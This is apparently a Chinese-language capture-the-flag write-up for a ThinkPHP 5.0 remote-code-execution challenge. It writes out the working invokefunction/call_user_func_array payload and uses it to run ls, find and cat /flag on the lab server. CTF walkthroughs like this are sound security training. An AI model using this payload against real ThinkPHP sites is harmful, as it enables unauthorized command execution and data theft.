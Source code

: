 # php_rce

本题显示信息: 版本 `ThinkPHP V5.0`.

因为题目是 `php rce`, 上网查一些关于 `ThinkPHP RCE payload`, 找到 [https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection](https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection). 我用的是 `thinkphp 5.0.21` 的 `payload`:

`?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=`

我们可以执行任何命令在最后的等于符号后面.

用 `ls` 命令: `?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls` 查看所在 `path` 有哪些文件, 但没有收获.

于是我试着用 `find` 命令 `?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=find%20/%20-name%20flag` 寻找字 `flag`, 得到 `flag` 在 `/flag` 文件中.

最后只需要直接读 `flag` 文件: `?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag`
